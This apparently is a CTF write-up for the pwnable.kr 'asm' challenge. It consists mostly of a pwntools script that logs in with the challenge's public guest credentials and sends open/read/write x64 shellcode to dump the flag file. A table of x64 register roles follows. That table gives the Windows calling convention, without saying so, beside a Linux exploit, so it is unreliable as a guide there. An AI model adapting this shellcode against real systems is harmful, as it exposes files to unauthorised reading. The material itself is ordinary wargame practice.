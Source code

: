 **Exp**

```python
#coding=utf-8
from pwn import *
context(arch="amd64",os="Linux",log_level="DEBUG")

shell = ssh(host="pwnable.kr",user="asm",port=2222,password="guest")
#shell.download_file("./asm.c")

io = shell.connect_remote("0.0.0.0",9026)
filename="this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong"
shellcode=""
shellcode+=shellcraft.open(filename)#打开文件到 rax(返回值)
shellcode+=shellcraft.read('rax','rsp',100)#读文件 100个字节 到栈上 (rsp)
shellcode+=shellcraft.write(1,'rsp',100)#从rsp 写到stdout=1 (stdin=0) 
print shellcode
io.sendafter("give me your x64 shellcode:",asm(shellcode))
io.interactive()
```

附一张x64各寄存器用途

| Register       | 状态         | 请使用                                                     |
| -------------- | ------------ | ---------------------------------------------------------- |
| **RAX**        | **易失的**   | **返回值寄存器**                                           |
| **RCX**        | **易失的**   | **第一个整型参数**                                         |
| **RDX**        | **易失的**   | **第二个整型参数**                                         |
| **R8**         | **易失的**   | **第三个整型参数**                                         |
| **R9**         | **易失的**   | **第四个整型参数**                                         |
| **R10:R11**    | **易失的**   | **必须根据需要由调用方保留；在 syscall/sysret 指令中使用** |
| **R12:R15**    | **非易失的** | **必须由被调用方保留**                                     |
| **RDI**        | **非易失的** | **必须由被调用方保留**                                     |
| **RSI**        | **非易失的** | **必须由被调用方保留**                                     |
| **RBX**        | **非易失的** | **必须由被调用方保留**                                     |
| **RBP**        | **非易失的** | **可用作帧指针；必须由被调用方保留**                       |
| **RSP**        | **非易失的** | **堆栈指针**                                               |
| **XMM0**       | **易失的**   | **第一个 FP 参数**                                         |
| **XMM1**       | **易失的**   | **第二个 FP 参数**                                         |
| **XMM2**       | **易失的**   | **第三个 FP 参数**                                         |
| **XMM3**       | **易失的**   | **第四个 FP 参数**                                         |
| **XMM4:XMM5**  | **易失的**   | **必须根据需要由调用方保留**                               |
| **XMM6:XMM15** | **非易失的** | **必须根据需要由被调用方保留。**                           |
